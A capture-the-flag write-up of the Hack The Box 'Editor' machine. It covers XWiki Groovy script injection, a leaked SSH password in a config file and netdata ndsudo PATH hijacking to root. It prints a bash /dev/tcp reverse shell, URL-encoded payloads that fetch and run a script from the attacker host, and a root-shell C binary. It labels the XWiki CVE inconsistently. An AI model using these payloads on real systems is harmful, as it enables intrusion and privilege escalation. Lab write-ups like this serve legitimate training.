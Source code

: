 # Editor

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```


#### Initial Enumeration
First, I performed an nmap scan and found several open ports. The most interesting finding was the domain editor.htb, which I added to my /etc/hosts file.

Bash

```
sudo nano /etc/hosts
<MACHINE_IP> editor.htb
```
Navigating to http://editor.htb in a browser revealed a code editor interface. Further enumeration showed a service running on port 8080, which turned out to be XWiki, an open-source wiki platform.

**Access Restricted by HackTheBox Rules**

<!--

### Foothold and user.txt
The XWiki instance was running version 15.10.8. A quick search for this version, in combination with "XWiki", led me to a vulnerability with the CVE ID CVE-2025-24983.

I searched for an exploit for this CVE and found a helpful Python script on GitHub: https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py. This exploit allows for remote code execution via a Groovy script injection.

The exploitation process involved two main steps: uploading a reverse shell script and then executing it.

First, I created a simple reverse shell script named shell.sh:

Bash

```
cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1
```

Next, I hosted this script on my local machine using a Python web server.

Bash

```
python -m http.server 80
```
![Python](Pictures/htb_Editor_Python_S.png)


From a browser, I used the following URL to upload the shell.sh script to the target machine's /tmp directory. I made sure to replace <YOUR_IP> with my IP address.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://<YOUR_IP>/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

With the file uploaded, I set up a netcat listener on my machine.

Bash
```
nc -lnvp 4444 

##OR 

python3 penelope.py -i tun0 4444
```
Finally, I used a second browser tab with another URL to execute the uploaded script, which immediately gave me a reverse shell as the xwiki user.

```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Note: If the shell doesn't connect, it may be necessary to run the upload and execute commands again.

The shell connected, and I confirmed my user was xwiki. I then checked the /etc/passwd file and identified a user named oliver in the /home directory.

To escalate my privileges from xwiki to oliver, I began looking for credentials. I found a potentially useful configuration file at /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml.

Bash

```
cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
```

The output contained several passwords, including theXXXXXXXXXX99. I attempted to use this password to log in via SSH as the user oliver, and it was successful.

![Rev](Pictures/htb_Editor_xwiki_RevShell_Password_leak.png)

Bash

```
ssh oliver@editor.htb
```

With the SSH shell, I was able to retrieve the user.txt flag.

### Privilege Escalation and root.txt

Once logged in as oliver, I checked for potential privilege escalation vectors. My first attempt was to check sudo permissions, but this was not fruitful.

Bash

```
oliver@editor:~$ sudo -l
[sudo] password for oliver: 
Sorry, user oliver may not run sudo on editor.
```

Next, I enumerated network sockets with ss -tulnp to identify any services running locally.

Bash

```
oliver@editor:~$ ss -tulnp
```

The output showed a service listening on port 19999 on the loopback address (127.0.0.1), which was identified as netdata.

To interact with this service, I used SSH local port forwarding to tunnel the port to my local machine.

Bash

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

![Script](Pictures/htb_Editor_SSH_PORTFAct.png)

By navigating to http://localhost:19999 in my browser, I could access the netdata dashboard. The dashboard indicated that the service was running version 1.45.2 and needed to be updated.

![Script](Pictures/htb_Editor_SSH_PORTF.png)

A quick search for netdata 1.45.2 revealed a local privilege escalation vulnerability, CVE-2024-32019. The vulnerability's Proof of Concept (PoC) involves using a specific ndsudo command to execute an arbitrary binary with root privileges.

The PoC steps are as follows:

Create a malicious executable with a name that ndsudo expects (e.g., nvme).

Place the executable in a writable path (e.g., /tmp).

Modify the PATH environment variable to include this path.

Run ndsudo with the designated command.

I created a C file named malicious.c that would spawn a root shell when executed.

C

```
// mal.c
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}
```

![Script](Pictures/htb_Editor_CodeC.png)

I then compiled this file, naming the output nvme.

Bash

```
gcc -o nvme malicious.c
```

After compiling, I started a Python server on my local machine to host the nvme binary.

![Script](Pictures/htb_Editor_CodeCcompile.png)

Bash

```
python -m http.server 80
```

![Script](Pictures/htb_Editor_Python_S.png)

Finally, from my oliver shell, I downloaded the binary, made it executable, updated my PATH, and executed the vulnerable command to get a root shell.

Bash

```
cd /tmp
wget http://<YOUR_IP>/nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![Priviledge Esc](Pictures/htb_Editor_Priviledge_Esc.png)

### Root

![Root Flag](Pictures/htb_Editor_Root_Flag.png)

Executing the command immediately dropped me into a root shell, allowing me to retrieve the root.txt flag from the /root directory.

#### 🏁 Summary of Attack Chain

```
| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | (Local) | Nmap, /etc/hosts | Identified open ports and domain `editor.htb` |
| 2 | (Web) | XWiki Enumeration | Found XWiki version `15.10.8` and associated CVE-2025-24983 |
| 3 | xwiki | Groovy Script Injection (CVE-2025-24983) | Executed remote command to download and run a reverse shell script |
| 4 | xwiki | Shell Enumeration | Gained a shell as the `xwiki` user and identified user `oliver` |
| 5 | xwiki -> oliver | File Enumeration | Found `oliver`'s SSH password (`theXXXXXXXeam99`) in `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml` |
| 6 | oliver | SSH Login | Gained an SSH shell as `oliver` and retrieved `user.txt` |
| 7 | oliver | Port Enumeration | Used `ss -tulnp` to find `netdata` service listening on `127.0.0.1:19999` |
| 8 | oliver | SSH Local Port Forwarding | Forwarded port `19999` to `localhost` to access the `netdata` dashboard |
| 9 | oliver | Netdata Vulnerability (CVE-2024-32019) | Identified a local privilege escalation vulnerability in `netdata` version `1.45.2` |
| 10 | oliver -> root | Custom Executable & PATH Manipulation | Exploited `ndsudo` to run a malicious binary (`nvme`) with root privileges |
| 11 | root | Root Shell | Gained a `root` shell and retrieved `root.txt` |
```

**Pwned! Editor**

-->